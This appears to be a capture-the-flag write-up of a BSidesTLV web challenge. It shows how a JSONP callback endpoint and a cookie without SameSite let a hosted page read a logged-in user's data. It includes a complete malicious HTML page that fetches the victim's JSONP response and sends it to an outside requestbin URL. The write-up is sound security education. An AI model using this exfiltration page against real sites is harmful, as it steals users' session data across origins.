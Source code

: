 # Challenge Instructions

```
Hi Agent! Your mission is to exfiltrate data of our target, so we can catch him! Can you do it?

URL: https://can-you-bypass-the-sop.ctf.bsidestlv.com/

BOT: https://can-you-bypass-the-sop.ctf.bsidestlv.com/bot
```

# Discovery

So the first thing that I realize is that we have a BOT url. Clicking on it brings us to a page with not much going on except for a textfield for a URL and a "Browse" button. From previous CTFs, this seemed like some sort of URL click bot that was running that would navigate to whatever URL was passed it. So to make sure, I fired up a request bin and passed in the URL to the bot. Sure enough, we get a hit.

![Test request bin](./requestbin.PNG)


With this in mind and the fact that the challenge name uses the term SOP, we're likely looking for some XSS variation that we can store inside a link or a webpage that we can send to the BOT to gain any secrets that it may hold.

After navigating to the main url, we're presented with a login page. We immediately see a "JOIN AS A GUEST" button. Clicking this grants us access to a welcome screen as a guest user. After being logged in as a guest, I noticed a JWT token added to my cookie storage in my browser, `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Ikd1ZXN0IiwiZmxhZyI6IllvdSBhcmUgb24gdGhlIHJpZ2h0IHRyYWNrISIsImlhdCI6MTU5MzU1NjY3MX0.BOh06azgJcQFjPkzbYG4FnCUNsyfLniedmwXVgM9-0k`

Decoding the token, we get

```JSON
{
  "alg": "HS256",
  "typ": "JWT"
}

{
  "username": "Guest",
  "flag": "You are on the right track!",
  "iat": 1593556671
}
HMACSHA256(
  base64UrlEncode(header) + "." +
  base64UrlEncode(payload),
  256 secret,
) 
```

Interesting, the payload in the JWT token has a flag field. Also, the `SameSite` security flag was not set on the cookie, which means the site looks to be vulnerable to CSRF. It seems likely that if we can come up with some type of XSS, the user who clicks on our link will have their credentials passed in, even if the link was not originally from the `https://can-you-bypass-the-sop.ctf.bsidestlv.com` site. 

Snooping some more, we find the application code in the main.js file `https://can-you-bypass-the-sop.ctf.bsidestlv.com/js/main.js`. This script file stores the JavaScript functions that are called when someone signs in or joins as a guest. The function we are particularly interested in is

```javascript
function signIn() {
    let http = new XMLHttpRequest();
    http.open('POST', 'signIn', true);
    http.setRequestHeader('Content-type', 'application/json');
    http.onreadystatechange = function() {//Call a function when the state changes.
        if(http.readyState === 4 && http.status === 200) {
            $.ajax({
                dataType: 'jsonp',
                jsonp: 'callback',
                url: '/FetchUserInfo?callback=?',
                success: function (data) {
                    $("#login").html(
                        `<span class="login100-form-title p-b-70">Welcome ${data.username}!</span>
                                     <span class="login100-form-avatar">
                                     <img src="images/avatar-01.jpg" alt="AVATAR"></span>
                                     <div class="container-login100-form-btn" style="margin-top: 20px">
                                        <button class="login100-form-btn" id="select_div_SIGNIN" onclick="signOut()">
                                            Sign Out
                                        </button>
                                     </div>`);
                }
            });
        }
    };
    http.send(JSON.stringify({username: "Guest"}));
}
```

Something that should catch your eye pretty quickly is the second AJAX request and its use of the jsonp data type. A little background on JSONP, it is a mechanism that REST endpoints employed to bypass the same-origin policy (SOP). The same-origin policy and CORS is a security mechanism that browsers and web sites use to ensure that scripts and resources that are loaded from one origin cannot access resources from another origin. This is why if you navigated to your browser's web console while on a website and start making AJAX calls to another website on a different domain, your browser would stop you, as it would be breaching the SOP.

Some JSONP configurations allow you to define a `callback` parameter that is a function that is defined on the client side that when the request returns, it is automatically invoked and the code is executed. Navigating to the endpoint in question, we can see exactly what is happening. First by passing in `callback=i_control_this`
![callback example](./callback1.PNG)

and now `callback=with_whatever_I_want`

![callback example 2](./callback2.PNG)

Hmm, the callback function is being passed the payload to our JWT token. This is the last piece to our puzzle! If we can create a function that will ingest the object being passed back to to the JSONP callback function, we can send it as a URL parameter to an endpoint that we control and log the results.

Lets see what we can come up with!

# Solution

To put this all together we need 2 things.

1. We need to set up a requestbin to catch our request that will have the stolen cookie. That is simple enough.

2. To deploy the XSS, we need a way to host a web page. There are several services out there or you can use your own hosted website. I used [repl.it](https://repl.it/), which allows you to spin up proof of concept code snippets incredibly quickly. Below is the index.html file that is served whenever someone lands on my custom hosted website. 
```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width">
    <title>repl.it</title>
    <link href="style.css" rel="stylesheet" type="text/css" />
    <script src="https://code.jquery.com/jquery-1.8.2.min.js"></script>
  </head>
  <body>
    <form action="https://requestbin.net/r/w4xs0xw4" method="GET" >
    <input type="hidden" name="data" value="template" id="input" />
    <script>
      $(document).ready(function(){
        $.ajax({
                dataType: 'jsonp',
                jsonp: 'callback',
                url: 'https://can-you-bypass-the-sop.ctf.bsidestlv.com/FetchUserInfo?callback=?',
                success: function (data) {
                    /*let http = new XMLHttpRequest()
                    http.open('POST', 'https://requestbin.net/r/w4xs0xw4', true);
                    http.setRequestHeader('Content-type', 'application/json');
                    http.send(JSON.stringify(data));*/
                    var input = document.getElementById("input");
                    console.log(data);
                    input.value = data.flag;
                    document.forms[0].submit();
                }
            });
      });
    </script>
  </body>
</html>
```

What this does is call the JSONP enabled endpoint, the same one that the original website does, as soon as the web page loads. Because the token cookie is not secured as mentioned before, if the user that navigates to this malicious URL is already signed into the `https://can-you-bypass-the-sop.ctf.bsidestlv.com`, the browser will do them a "favor" and send the token cookie along with the request ensuring that they will not need to log in again. Once the request from this endpoint returns, it will bring back the response from the JSONP endpoint with the object now in the logged in user's context. So, if someone that isn't `Logged in as guest` were to click on this link, they will have their own data object returned in the JSONP response.

Once we get that data back, the code can then append it as a URL parameter to GET request to our requestbin that is waiting for us which is what the success function does. It assigns the flag parameter as the hidden input value of our form and then submits it, effectively submitting a GET request to our hosted requestbin endpoint.

Pasting in our malicious URL that is hosted by repl.it to the BOT, we then wait a few moments and check our requestbin to find our flag waiting for us.

![flag](./flag.png)